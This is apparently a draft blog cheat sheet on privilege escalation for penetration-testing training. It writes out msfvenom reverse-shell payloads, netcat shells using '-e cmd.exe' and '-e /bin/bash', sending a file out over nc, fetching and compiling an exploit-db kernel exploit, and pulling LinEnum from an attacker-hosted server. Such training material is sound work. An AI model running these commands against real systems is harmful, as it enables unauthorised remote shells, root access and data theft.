 ```yaml
---
title: Privilege Escalation Tools and Techniques
summary: Understand Privilege Escalation and use of tools
description: Understand Privilege Escalation and use of tools
slug: '/privilege-escalation-tool-and-techniques'
tags: ['privilege escalation', 'penetration testing', 'ethical hacking']
draft: true
---
```


## Reverse Shell

Take advantage of the target system's vulnerabilities to initiate a shell session. Here, listener is attacker.

```bash
# Windows Server
msfvenom -p windows/shell_reverse_tcp LHOST=<listener-ip-addr> LPORT=<listener-port> -f exe > shell-x64.exe

nc -lvp <listener-port>

# Now, after you download and run the app. We get the access to victim's shell.

# Java Server
msfvenom -p java/jsp_shell_reverse_tcp lhost=<listener-ip-addr> lport=<listener-port> -f war > shell.war
```

### WinPEAS

```powershell
WinPEASx65.exe systeminfo log=systeminfo.txt # Privilege Escalation
```

### netcat

#### Windows

```powershell
ncat.exe -lp 52000 # Start listening at port 52000

netstat -an | more

# If file doesn't exist it will be created else cleared and redirected.
ncat.exe -lp 55555 > alice.txt
# Append in a file instead.
ncat.exe -lp 55555 >> alice.txt

ncat.exe -lp 10314 -e cmd.exe # -e is executable i.e. cmd.exe

ncat.exe <target-linux-ip-addr> 14618 # Bash shell from Linux
```

#### Linux

```bash
nc <target-windows-ip-addr> 52000 # Linux

# Send content of the bob.txt file.
nc -w 1 <target-windows-ip-addr> 5555 < bob.txt
# If the connection and stdin are idle for more than timeout seconds,
# the connection is closed silently. Default is no timeout.
# `nc` will listen forever for a connection, with or without the -w flag.

nc <target-windows-ip-addr> 10314 # Windows prompt from Linux

nc -lp 14618 -e /bin/bash # bash as executable.

nc -nlvp 5555
# -n: no DNS or service lookups on any addresses, hostnames or port names.
# -l: listen for an incoming connection.
# -v: give more verbose output.
# -p: to specify the local port number.
```

> Note: `>` is output redirection character, `<` is input redirection character.

## exploit-db.com

Based on Linux kernal, VulnOS -> `37292`

```bash
whoami

wget https://www.exploit-db.com/exploits/44298 -O exploit.c

gcc exploit.c -o exploit
chmod 777 exploit
./exploit

whoami
```

## LinEnum

```bash
# Attacker Server
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O LinEnum # or Copy RAW to to LinEnum file.

chmod +x LinEnum

python -m http.server 8000 # Serving http server to host a file to download.

# Victim Client
wget http://<attacker-ip-addr>:8000/LinEnum

./LinEnum
```

## Gobuster - Directory Traversal

```bash
# -u assign target
# -w word list
# -x is list of extensions
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <target-ip-addr>

gobuster dir -w /usr/share/wordlists/dirb/common.txt -x .php,.txt,.html -u <target-ip-addr>
```

## Spawning Bash Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")' # Pseudo-terminal utilities
```

## Root Login on NOPASSWD Sudoer

> `sudo -l`: This command is used to list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.

> `sudo -i`: This command, also known as sudo --login, starts a new shell as the target user (root by default), and changes to their home directory.

## Window Remote Management (WinRM)

```bash
evil-winrm -i <target-windows-ip-addr> -u 'admin' -p 'pass'
```

> Which metasploit module can be used in this case to abuse Windows Remote Management?
> **auxiliary/scanner/winrm/winrm_login**

## Reference

- https://github.com/ec-council-learning/Pentesting-Fundamentals-for-Beginners
